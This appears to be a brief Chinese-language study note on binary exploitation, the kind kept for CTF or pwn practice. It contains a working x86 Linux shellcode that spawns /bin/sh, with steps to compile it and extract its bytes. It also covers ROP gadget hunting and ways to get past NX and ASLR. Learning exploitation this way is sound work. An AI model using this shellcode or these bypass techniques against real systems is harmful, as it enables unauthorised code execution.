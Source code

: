 ##  一些资源
```
http://shell-storm.org
http://shell-storm.org/shellcode/
https://www.exploit-db.com
https://www.exploit-db.com/shellcode/
```
## shellcode


```x86asm
jmp sh
run:
  pop ebx
  mov BYTE[ebx+7],0 ;append 0 to /bin/sh
  xor eax,eax
  mov al,11
  xor ecx,ecx
  xor edx,edx
  int 0x80
sh:
  call run
  db "/bin/sh"
```

linux 下
- 使用`nasm [sourcecode] -o [target] -felf32`编译一个汇编文件 
- 使用`objcopy -O binary [source.out] [target]`提取 shellcode的。
- 使用`xxd -i [target]`将上述shellcode转为char数组

## ROP
 1. ROPgadget 得到代码片断
 2. cd80c3 就是int0x80;ret,s使用`ROPgadget --binary {binaryname} --opcode cd80c3`来寻找
### 寄存器赋值
构造栈结构
```
  *(pop eax ;ret)
  3
```
将eax赋值为3

## 漏洞挖掘方法
* 现成CMS注意DIFF
* 根据漏洞PATCH
* 根据漏洞写出EXP，发动攻击 
## 保护
NX:DEP 栈不可执行，可执行不可写 ROP绕过
ALSR: 把每次载入的函数地址随机化，利用puts/printf 等leak出libc的实际地址

## 打开就退出了
用strace分析系统调用

